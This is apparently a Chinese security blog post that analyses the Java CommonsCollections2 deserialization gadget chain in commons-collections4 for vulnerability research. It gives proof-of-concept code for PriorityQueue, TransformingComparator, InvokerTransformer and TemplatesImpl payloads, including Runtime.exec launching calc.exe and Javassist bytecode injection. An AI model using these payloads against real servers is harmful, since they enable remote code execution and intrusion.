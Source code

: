 ```yaml
---
layout: post  
title: "java反序列化漏洞-玄铁重剑之CommonsCollection(下)"  
date: 2018-1-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

## 前言:
  玄铁重剑，是金庸小说笔下第一神剑。由「玄铁」制成，重八八六十四斤；由「剑魔」独孤求败所使，四十岁前持之无敌于天下。 独孤求败逝去后为杨过所得，并由独孤求败的「朋友」神雕引导，之后在神雕的指导下，也根据独孤求败的独门秘籍及练功方法，练成了一身天下无敌的剑法及内功心法。
##  主角:
 CommonsCollection, commons-collections.jar
##  介绍:
Java Collections Framework 是JDK 1.2中的一个重要组成部分。它增加了许多强大的数据结构，加速了最重要的Java应用程序的开发。从那时起，它已经成为Java中集合处理的公认标准。官网介绍如下:
![](http://pic.findbugs.top/18-2-1/38664389.jpg)
Commons Collections使用场景很广，很多商业,开源项目都使用到了commons-collections.jar。
很多组件，容器，cms(诸如WebLogic、WebSphere、JBoss、Jenkins、OpenNMS等)的rce漏洞都和Commons Collections反序列被披露事件有关。
##  正文:

  再讲一个执行链，在ysoserial中，CommonsCollections2提到了，通过上一篇的分析，我们得知执行链很多。接下来接着分析另外一个执行链, 需要借助的是PriorityQueue这个类，这里我找到了一条执行链
PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->InvokerTransformer.transformat()
这和ysoserial提到的是一样的, 下面我们自己来尝试构造下poc。
通过分析源码，我们可构造出TransformingComparator.compare的大致结构如下:
	
	public static void main(final String[] args) throws Exception {
       runcompare();
	}
	public static void runcompare(){
	       InvokerTransformer invokerTransformer= getInvokerTransformer();
	       TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);
	       Runtime runtime1 = Runtime.getRuntime();
	       transformingComparator.compare(runtime1, null);
	
	   }
	   public static InvokerTransformer getInvokerTransformer(){
	       String[] cmds = new String[]{"calc.exe"};
	       InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
	       return invokerTransformer;
	   }
	
![](http://pic.findbugs.top/18-2-1/92800586.jpg)
其中PriorityQueue.siftDownUsingComparator调用compare的地方如下，查看源码可知，我们要将runtime对象放在 queue中。
![](http://pic.findbugs.top/18-2-1/16223501.jpg)
通过分析源码得知， 必须要给comparator赋值，comparator的赋值操作可以在构造函数里面进行。
![](http://pic.findbugs.top/18-2-1/55297502.jpg)
通过最终分析组合出如下poc:
	
	public Queue<Object> getObject(final String command) throws Exception {
        PriorityQueue queue = getPriorityQueue();
        return queue;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections2.class, args);
    }
    public static PriorityQueue getPriorityQueue() throws Exception {
        TransformingComparator transformingComparator = getTransformingComparator();
        PriorityQueue priorityQueue = new PriorityQueue(1, transformingComparator);
        priorityQueue.add(Runtime.getRuntime());
        return priorityQueue;
    }

    public static TransformingComparator getTransformingComparator(){
        InvokerTransformer invokerTransformer= getInvokerTransformer();
        TransformingComparator transformingComparator = new TransformingComparator(invokerTransformer);
        return transformingComparator;

    }
    public static InvokerTransformer getInvokerTransformer(){
        String[] cmds = new String[]{"calc.exe"};
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{cmds});
        return invokerTransformer;
    }
	}
	
但是在序列化的时候就出错了，2333，
很显然，Runtime不能直接序列化，因为他没有实现接口。
![](http://pic.findbugs.top/18-2-1/33519718.jpg)
那么想通过类似于CommonsCollection1的方式去执行函数，即
	
	inal Transformer[] transformers = new Transformer[]{
	new ConstantTransformer(Runtime.class),
	new InvokerTransformer("getMethod", new Class[]{
	String.class, Class[].class}, new Object[]{
	"getRuntime", new Class[0]}),
	new InvokerTransformer("invoke", new Class[]{
	Object.class, Object[].class}, new Object[]{
	null, new Object[0]}),
	new InvokerTransformer("exec",
	new Class[]{String.class}, execArgs),
	new ConstantTransformer(1)};
	final Transformer transformerChain = new ChainedTransformer(
	new Transformer[]{new ConstantTransformer(1)});
	Transformer transformerChain = new ChainedTransformer(transformers);
	
然而并不行，这个类在commons-collections4.jar中不具有类。最终还是看了一下ysoserial的poc，发现其利用的到是TemplatesImpl类,后面很多反序列化都用到这个。
![](http://pic.findbugs.top/18-2-1/13395039.jpg)
笔者记得在廖新喜师傅在分析fastsjon反序列化的时候也提到过这个，[http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/)
我们需要将一个编译成class 文件的类进行base64编码，并且赋值给_bytecodes，关于怎么做可以参考廖师傅的文章。我这里讲一下pwntester是怎么做的，这种做法需要借助ClassPool。
###浅谈ClassPool怎么用: 
classPool简单用法如下:
	
	public class Main {
    public static void main(String[] args){
        try
        {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("net.codersec.Person");
            CtField ctField = new CtField(CtClass.intType, "name", ctClass);
            ctField.setModifiers(Modifier.PUBLIC);
            ctClass.addField(ctField);
            byte[] bytes = ctClass.toBytecode();
            FileOutputStream fileOutputStream = new FileOutputStream(new File("Person.class"));
            fileOutputStream.write(bytes);
            fileOutputStream.close();
        }catch (Exception e){
          e.printStackTrace();
        }
    }
	}
	
运行上面的代码就会生成一个class文件，反编译结果如下:
![](http://pic.findbugs.top/18-2-1/43466655.jpg)
这里有一个小技巧，就是在Class.newInstance的时候，可以在Class的构造函数里面加要执行的恶意代码，但是也可以 通过insertAfter()将要执行的代码在构造函数运行后运行。
![](http://pic.findbugs.top/18-2-1/20467796.jpg)
其生成的代码如下:
![](http://pic.findbugs.top/18-2-1/93917050.jpg)
最终调试完成之后poc如下:
	
	final Object templates = Gadgets.createTemplatesImpl(command);
	final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
	final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
	queue.add(templates);
	queue.add(templates);
	Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
	final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
	return queue;
	
其中用到的是函数 TemplatesImpl.newTransformer，而不是TemplatesImpl.getTransletInstance，因为getTransletInstance权限是private不能被直接反射?试了几个public权限的函数，比如getOutputProperties，newTransformer都可以。 且getOutputProperties，newTransformer中都有调用getTransletInstance。
##  拓展学习
  其实除了InvokerTransformer.transformat，还可以利用InstantiateTransformer.transformat()，其中collcetion5就是利用了com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter构造函数中调用了TemplatesImpl.getTransletInstance()
  ![](http://pic.findbugs.top/18-2-1/79221799.jpg)
  ![](http://pic.findbugs.top/18-2-1/65780167.jpg)
  其调用链更复杂
PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->InstantiateTransformer.transformat()->com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.newInstance()->TemplatesImpl.getTransletInstance()->Class.newInstance()

##  参考链接  
http://blog.csdn.net/a394268045/article/details/51996082
http://blog.csdn.net/yyywyr/article/details/16984335


